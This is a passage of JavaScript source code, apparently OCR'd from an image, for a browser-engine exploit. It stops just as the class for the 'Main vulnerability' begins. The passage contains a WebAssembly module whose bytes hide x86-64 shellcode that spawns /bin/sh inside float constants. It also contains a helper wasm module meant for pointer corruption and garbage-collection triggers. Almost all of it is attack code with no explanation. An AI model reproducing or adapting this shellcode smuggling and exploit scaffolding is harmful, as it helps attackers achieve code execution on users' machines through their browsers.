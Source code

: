 ```js
    return __f64_buf[0];
}

function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

function reverse(x) {
    var buf = new ArrayBuffer(0x20);
    var view1 = new BigInt64Array(buf);
    var view2 = new Uint8Array(buf);
    view1[0] = x;
    view2.reverse();
    return view1[3];
}

function assert(x) {
	console.assert(x);
}

////////////////////////////////////////////////////////////////////////
/////////////////////         Main Exploit         /////////////////////
////////////////////////////////////////////////////////////////////////

// for future - shellcode smuggling
var wasm_code = new Uint8Array([0x00,0x61,0x73,0x6d,0x01,0x00,0x00,0x00,0x01,0x05,0x01,0x60,0x00,0x01,0x7c,0x03,0x02,0x01,0x00,0x07,0x08,0x01,0x04,0x6d,0x61,0x69,0x6e,0x00,0x00,0x0a,0x53,0x01,0x51,0x00,0x44,0xbb,0x2f,0x73,0x68,0x00,0x90,0xeb,0x07,0x44,0x48,0xc1,0xe3,0x20,0x90,0x90,0xeb,0x07,0x44,0xba,0x2f,0x62,0x69,0x6e,0x90,0xeb,0x07,0x44,0x48,0x01,0xd3,0x53,0x31,0xc0,0xeb,0x07,0x44,0xb0,0x3b,0x48,0x89,0xe7,0x90,0xeb,0x07,0x44,0x31,0xd2,0x48,0x31,0xf6,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x44,0x0f,0x05,0x90,0x90,0x90,0x90,0xeb,0x07,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x1a,0x0b]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f1 = wasm_instance.exports.main;

// to corrupt the pointer here.
var wasm_code_helper = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod_helper = new WebAssembly.Module(wasm_code_helper);
var wasm_instance_helper = new WebAssembly.Instance(wasm_mod_helper);
var f2 = wasm_instance_helper.exports.main;

function gc(){
    for(let i=0;i<0x10;i++) new ArrayBuffer(0x100000);
}

let dogc_flag = null;
function dogc(){
    if(dogc_flag){
        gc();
    }
}

let empty_object = {};
let empty_array = [];
let corrupted_instance = null;

// Main vulnerability.
class ClassParent {}
class ClassBug extends ClassParent {
```
